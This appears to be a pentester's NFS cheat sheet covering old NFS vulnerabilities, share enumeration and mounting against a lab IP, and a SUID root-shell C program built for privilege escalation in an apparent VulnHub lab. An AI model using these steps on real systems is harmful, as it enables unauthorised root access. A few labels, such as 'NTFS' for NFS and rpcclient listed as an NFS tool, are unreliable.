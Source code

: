 credits: s0wr0b1ndef , gajos112 and jivoi
-----------------------------NFS DESCRIPTION-----------------------------

1. Network FILE SYSTEM

Network File System (NFS) - remote filesystem access [RFC 1813] [RFC5665]. A commonly scanned and exploited attack vector. Normally, port scanning is needed to find which port this service runs on, but since most installations run NFS on this port, hackers/crackers can bypass fingerprinting and try this port directly.

FreeBSD is vulnerable to a denial of service attack. A remote attacker could send a specially-crafted NFS Mount request to TCP port 2049 to cause a kernel panic, resulting in a denial of service.
References: [CVE-2006-0900] [BID-16838]

Stack-based buffer overflow in nfsd.exe in XLink Omni-NFS Server 5.2 allows remote attackers to execute arbitrary code via a crafted TCP packet to port 2049 (nfsd), as demonstrated by vd_xlink.pm.
References: [CVE-2006-5780] [BID-20941] [SECUNIA-22751]

Novell Netware is vulnerable to a stack-based buffer overflow, caused by improper bounds checking by the xnfs.nlm component when processing NFS requests. By sending a specially-crafted NFS RPC request to UDP port 2049, a remote attacker could overflow a buffer and execute arbitrary code on the system or cause the server to crash.

-----------------------------NFS MOUNT-----------------------------

2. Mount NFS share

root@kali:~# showmount -h
Usage: showmount [-adehv]
[--all] [--directories] [--exports]
[--no-headers] [--help] [--version] [host]
root@kali:~# showmount 172.16.1.109
Hosts on 172.16.1.109:
root@kali:~# showmount -e 172.16.1.109
Export list for 172.16.1.109:
/var/nfsshare *
root@kali:~# mkdir /tmp/nfs
root@kali:~# mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock
root@kali:~# cd /tmp
root@kali:/tmp# ls -al
total 52
drwxrwxrwt 12 root       root       4096 Oct 30 23:22 .
drwxr-xr-x 22 root       root       4096 Sep 29 03:47 ..
...
drwxr-x---  2 nobody     4294967294 4096 Sep  2  2012 nfs
...
root@kali:/tmp# cd /tmp/nfs


----------------------------------------------s0wr0b1ndef----------------------------------
nmap -sV --script=nfs-* 172.16.1.109
nmap -sV --script=nfs-ls 172.16.1.109  //same result as rpcinfo
nmap -sV --script=nfs-* 172.16.1.109 // all nfs scripts

rpcinfo -p 172.x.x.x
rpcclient -I 172.x.x.x

#mount NTFS share
mount -t nfs 172.16.1.109:/var/nfsshare /tmp/nfs -nolock

#enumerate NFS shares
showmount -e 172.16.1.109

# If you see any NFS related ACL port open, see /etc/exports
#   2049/tcp  nfs_acl
# /etc/exports: the access control list for filesystems which may be exported to NFS clients.  See exports(5).

READ:
https://pentestlab.blog/tag/rpc/

See root squashing
https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/

--------------------------------------------------GET SHELL--------------------------------------------
Veja: https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/

Crie seu shell em C e compile:

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

root@an4kein:~/vulnhub/bravery/compile# vim rootshell.c^C
root@an4kein:~/vulnhub/bravery/compile# cat rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
        setuid(0); setgid(0); system("/bin/bash");
}
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell.c
root@an4kein:~/vulnhub/bravery/compile# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:6:24: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  setuid(0); setgid(0); system("/bin/bash");
      |                        ^~~~~~
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# chmod u+s rootshell
root@an4kein:~/vulnhub/bravery/compile# ls
rootshell  rootshell.c
root@an4kein:~/vulnhub/bravery/compile# 

